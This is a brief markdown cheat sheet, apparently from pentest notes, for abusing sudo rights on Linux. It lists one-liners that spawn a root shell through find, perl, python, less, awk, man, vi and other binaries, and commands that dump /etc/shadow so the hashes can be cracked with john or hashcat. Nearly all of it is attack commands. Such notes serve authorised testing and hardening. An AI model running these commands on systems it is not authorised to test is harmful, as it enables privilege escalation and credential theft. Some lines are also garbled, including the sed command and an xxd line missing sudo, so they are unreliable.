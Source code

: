 ## SUDO

Tool: [Sudo Exploitation](https://github.com/TH3xACE/SUDO_KILLER)

Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.
View sudo rights:
```bash
$ sudo -l
```
### Allow Root Privilege to Binary commands
(root) ALL: run all command as root user.
```bash
$sudo su
#or
$sudo bash
```
Find
```bash
$sudo find /home -exec /bin/bash \;
$sudo find . -exec /bin/sh \; -quit
```
Perl 
```bash
$sudo perl -e 'exec "/bin/bash";'
```
Python
```bash
$sudo python -c 'import pty;pty.spawn("/bin/bash")'
```
Less
```bash
$sudo less /etc/profile 
$!/bin/sh or !bash
```
Time
```bash
$sudo time /bin/bash
```
AWK
```bash
$sudo awk 'BEGIN {system("/bin/bash")}'
```
Man
```bash
$sudo man man
!bash
```
Vi
```bash
$Sudo vi
:!bash
```
```bash
$sudo vi -c '!bash'
```
Sed
```bash
$Sudo sed -n ‘le exec sh 1>&0’ /etc/passwd
```
Xxd
```bash
$xxd "/etc/shadow" | xxd -r
#crack pass with john
```
Cat:
```bash
$sudo cat /etc/shadow -> crack pass(john/hashcat)
```
